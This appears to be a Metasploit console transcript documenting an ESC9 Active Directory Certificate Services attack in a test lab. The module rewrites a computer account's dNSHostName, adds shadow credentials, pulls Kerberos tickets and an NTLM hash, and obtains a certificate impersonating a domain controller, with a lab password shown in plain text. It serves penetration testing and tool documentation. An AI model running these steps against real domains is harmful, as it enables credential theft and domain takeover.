 ### ESC9 - Update dnsHostName to `dc2.kerberos.issue`
```
 msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldaprport 389
ldaprport => 389
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set target_username "Test2$"
target_username => Test2$
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT_VALUE dc2.kerberos.issue
UPDATE_LDAP_OBJECT_VALUE => dc2.kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT dnsHostName
UPDATE_LDAP_OBJECT => dNSHostName
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set CA kerberos-DC2-CA
CA => kerberos-DC2-CA
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set CERT_TEMPLATE ESC9-Template-Dns
CERT_TEMPLATE => ESC9-Template-Dns
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapdomain kerberos.issue
ldapdomain => kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldappassword N0tpassword!
ldappassword => N0tpassword!
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapusername Test1$
ldapusername => Test1$
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > run
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of Test2$'s dNSHostName:
[*] Attempting to update dNSHostName for CN=Test2,CN=Computers,DC=kerberos,DC=issue to dc2.kerberos.issue...
[+] Successfully updated CN=Test2,CN=Computers,DC=kerberos,DC=issue's dNSHostName to dc2.kerberos.issue
[+] The operation completed successfully!
[*] 172.16.199.200:445 - Adding shadow credentials for Test2$
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] Certificate stored at: /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_windows.ad.cs_384135.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 44760c6e-8637-598a-ad8e-04aa4b99ee58
[*] 172.16.199.200:445 - Loading admin/kerberos/get_ticket
[*] 172.16.199.200:445 - Getting hash for Test2$
[!] Warning: Provided principal and realm (Test2$@kerberos.issue) do not match entries in certificate:
[+] 172.16.199.200:88 - Received a valid TGT-Response
[*] 172.16.199.200:88 - TGT MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_mit.kerberos.cca_631833.bin
[*] 172.16.199.200:88 - Getting NTLM hash for Test2$@kerberos.issue
[+] 172.16.199.200:88 - Received a valid TGS-Response
[*] 172.16.199.200:88 - TGS MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_mit.kerberos.cca_923562.bin
[+] Found NTLM hash for Test2$: aad3b435b51404eeaad3b435b51404ee:4fd408d8f8ecb20d4b0768a0ac44b71f
[+] 172.16.199.200:445 - The requested certificate was issued.
[*] 172.16.199.200:445 - Certificate Policies:
[*] 172.16.199.200:445 -   * 1.3.6.1.5.5.7.3.2 (Client Authentication)
[*] 172.16.199.200:445 - Certificate DNS: dc2.kerberos.issue
[*] 172.16.199.200:445 - Certificate stored at: /Users/jheysel/.msf4/loot/20250730093956_default_172.16.199.200_windows.ad.cs_337994.pfx
[*] 172.16.199.200:445 - Removing shadow credential
```